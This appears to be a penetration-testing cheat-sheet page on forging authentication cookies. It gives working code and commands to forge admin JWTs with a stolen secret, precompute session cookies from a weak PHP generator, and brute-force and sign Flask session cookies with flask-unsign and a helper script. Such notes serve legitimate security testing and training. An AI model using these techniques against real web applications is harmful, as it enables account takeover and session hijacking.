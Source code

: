 # Cookie Hacking

## Create a forged cookie

Sometimes we retrieve secrets or files that are responsible for creating the cookie/token to obtain an authenticated session in the web application.

For example, if we manage to get several files that are used in the backend of a web application, we must search by keywords such as:

```
SECRET_KEY,API,API_KEY,KEY,SECRET,JWT,COOKIE,PRIVATE,PUBLIC
```

### JWT

{% hint style="danger" %}
If we need to set a value to the **exp** key, it is probably referring to the **lifetime of the token**. This should generally be in the **Epoch & Unix Timestamp format** (ex: `1639086677`). You can create one at the following link: [https://www.epochconverter.com/](https://www.epochconverter.com) (be sure to create one that lasts at least 1 day).
{% endhint %}

{% tabs %}
{% tab title="With secret" %}
### jwt.io

If we have the key (SECRET\_KEY), we can modify the JWT to our liking. If we do not have it, we can try to "find it" or verify if a signature check is really being done, among other techniques.

![](../../.gitbook/assets/with\_secret\_jwt.png)

### Python

```bash
# Dependencies:
sudo pip3 install pyjwt
# Method:
import jwt
secret = "<SECRET>"
enc_jwt = jwt.encode({'user':'admin','exp':'1744967620'}, secret, algorithm='HS256')
# For base64 secret (test):
import base64
enc_jwt = jwt.encode({'user':'admin','exp':'1744967620'},  base64.b64decode(secret), algorithm='HS256')
```
{% endtab %}

{% tab title="With public/private keys" %}
### jwt.io

If we have the public key and private key used to sign the JWT, we can also forge a token.

![](../../.gitbook/assets/with\_keys\_jwt.png)
{% endtab %}
{% endtabs %}

Remember to change the algorithm:

![](../../.gitbook/assets/algorithm\_jwt.png)

Remember also the "**base64 secret encoded**" option:

![](../../.gitbook/assets/secret\_base64\_encoded.png)

### Custom (PHP)

In the following case, we managed to retrieve a file that is responsible for generating a cookie:

```php
<?php
function genSess($user){
    $max = strlen($user) - 1;
    $seed = rand(0, $max);
    $key = "custom_password123".$user[$seed]."(!528.\/9890";
    $s_cookie = $user.md5($key);

    return $s_cookie;
}
?>
```

If we obtained this file, we can compute a cookie by adding the following to the PHP code:

```php
print genSess("admin")
```

As in this case the generated cookie is dynamic, we can compute 100 cookies and see if there are repetitions:

{% hint style="danger" %}
If the cookies are repeated many times and the user has a current session in the web application, we can probably hijack the session.
{% endhint %}

```bash
for i in $(seq 1 100); do php asd.php; echo; done | sort -u
```

With the results (the cookies computed), let's test each one and see if it works.

### Flask

Default cookie session name is `session`.

Cookies in Flask use a secret just like JWT. If we know the payload structure of the cookie and we know the SECRET\_KEY, then we can create a forged cookie:

{% tabs %}
{% tab title="flask-unsign" %}
`flask-unsign` is a command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

```bash
# Install:
pip3 install flask-unsign
# Decode Cookie:
flask-unsign -d -c '<COOKIE>'
flask-unsign --decode --cookie '<COOKIE>'
# Brute Force:
flask-unsign --unsign --cookie '<COOKIE>' --wordlist <WORDLIST>
# Signing:
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
# Signing using legacy (old versions):
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

{% embed url="https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce" %}
{% endtab %}

{% tab title="Python" %}
```bash
# Dependencies:
sudo pip3 install waitress
```

{% code title="gen_cookie.py" %}
```python
#!/usr/bin/python3
from flask import Flask, session, request
import requests, threading, time
from waitress import serve

# Flask initiation
app = Flask(__name__)
app.config["SECRET_KEY"] = "<SECRET_KEY>"

@app.route('/')
def main():
    # Cookie format: {'auth' : 'True', 'username' : 'admin'}
    session['auth'] = 'True'
    session['username'] = "admin"
    return 'ok'

thread = threading.Thread(target = lambda: serve(app, host="127.0.0.1", port=9000))
thread.setDaemon(True)
thread.start()

time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```
{% endcode %}

```bash
python3 gen_cookie.py
```
{% endtab %}
{% endtabs %}

## Delete cookie

Always try to delete a cookie and watch the **Set-Cookie** header to see the server response. Generally, re-set the cookie, but try looking at the entire header to see if any information is leaked (this can happen with the [path value](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#pathpath-value)).

## Command and SQL injections

### [JWT](broken-authentication/jwt.md#kid-issues)

### Flask (SQL injection)


